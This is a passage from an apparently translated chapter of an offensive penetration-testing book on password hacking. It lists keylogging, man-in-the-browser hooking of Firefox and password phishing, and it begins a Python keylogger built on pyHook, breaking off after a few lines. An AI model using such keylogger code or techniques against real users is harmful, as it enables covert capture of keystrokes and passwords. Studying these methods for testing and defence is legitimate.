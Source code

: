 # 密码破解

大多数黑客认为他们的目标在运行过时且没有打补丁的 Windows XP，在这种系统上，防病毒软件已禁用，防火墙已关闭，可能也没有入侵防御系统。毕竟，你可能成功入侵他们的系统，也可能没有。这绝对不是现实世界中的渗透测试。

在本章中，我们将处理以下主题：

+   无病毒的键盘记录器

+   浏览器中的人

+   使用 Immunity Debugger 对 Firefox 进行 API 钩取

+   Firefox 中的 Python **概念验证**（**POC**）

+   Firefox 中的 Python EXE

+   密码钓鱼

+   应对措施

# 无病毒的键盘记录器

在本节中，我们将编写一个简单的软件键盘记录器，完全使用 Python 来实现。为此，我们将使用一个名为`pyHook`的库。`pyHook`库封装了 Windows 中的低级鼠标和键盘钩子。根据`pyHook`文档，任何希望接收全局输入事件通知的应用程序都必须有一个 Windows 消息泵。为此，我们还需要另一个名为`pywin`的库。

那么，让我们开始安装这些库吧。

# 安装 pyHook 和 pywin

你可以从[`sourceforge.net/projects/pyhook/files/pyhook/1.5.1/`](http://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)下载`pyHook`库，并按照屏幕上的指示轻松安装。

确保后台没有运行其他 Python 实例，否则在安装过程中会遇到错误。`pywin`库也可以以相同的方式安装。你可以从[`sourceforge.net/projects/pywin32/files/pywin32/Build%20219/`](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/)下载该库。

# 向键盘记录器添加代码

以下是键盘记录器的脚本：

```
# Python For Offensive PenTest

# pyHook download link
# http://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/

# pythoncom download link
# http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/

# Keylogger

import pythoncom, pyHook

#Again, once the user hit any keyboard button, keypressed func will be executed and that action will be store in event

def keypressed(event):

    global store

#Enter and backspace are not handled properly that's why we hardcode their values to < Enter > and <BACK SPACE>
# note that we can know if the user input was enter or backspace based on their ASCII values

    if event.Ascii==13:
```